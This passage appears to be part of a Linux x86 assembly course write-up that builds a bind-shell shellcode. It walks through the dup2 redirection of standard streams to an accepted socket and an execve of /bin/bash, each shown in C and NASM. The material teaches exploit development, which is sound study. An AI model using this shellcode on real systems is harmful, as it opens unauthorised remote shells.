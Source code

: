        		 	dup2(fd, 0); // stdin
    			dup2(fd, 1); // stdout
    			dup2(fd, 2); // stderr

    			#int dup2(int oldfd, int newfd);

		NASM

    		  	mov ebx,eax   # file descrptor for accepted socket
        		xor ecx,ecx   #0,stdin

          		mov al,0x3f   #63 dup2 sys call
          		int 0x80

          		inc ecx       #1,stdout
          		mov al,0x3f
          		int 0x80

          		inc ecx       #2,stderr
          		mov al,0x3f
          		int 0x80

          		EAX = 0x3f , ie 63 dup2
          		toor@ubuntu:~/Desktop/slae/Assignments/1$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 63
				  #define __NR_dup2                63
				  @int dup2(int oldfd, int newfd);

			EBX , new sockfd .On accept() call success, this system call return a nonnegative integer that is a file descriptor for the accepted socket

			ECX = 0,1 and 2 to represent stdin ,stdout and stderr

	>Executes a shell	

    		  	This executes the program referred to by pathname. Here /bin/sh is executed.It could be /bin/sh or /bin/bash or /bin/rsh etc
    			
    			execve("/bin/sh", NULL, NULL);
    			#int execve(const char *pathname, char *const argv[],char *const envp[]);

    			pathname is set to /bin/sh
    			since we are not passing any arguments and not need of any environemntal value ,they are set to null


    		NASM

    		  	xor eax,eax
        		push eax
        		push 0x68736162         ////bin/bash in reverse
        		push 0x2f6e6962
        		push 0x2f2f2f2f
        		mov ebx,esp

        		push eax    # environament value ie ,0
        		push ebx    #pointer to /bin/bash address loc
        		mov ecx,esp

        		mov al,11
        		xor edx,edx #arguments for execve , ie 0
        		int 0x80
